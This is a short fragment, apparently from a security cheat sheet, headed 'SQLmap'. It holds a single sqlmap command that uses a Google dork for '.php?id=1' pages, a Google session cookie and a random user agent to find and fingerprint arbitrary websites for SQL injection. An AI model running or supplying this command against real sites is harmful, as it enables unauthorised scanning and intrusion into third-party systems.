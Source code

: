 # SQLmap

`$ sqlmap -g "inurl:\".php?id=1\"" --cookies="<google_cookies_session>" -f --random-agent`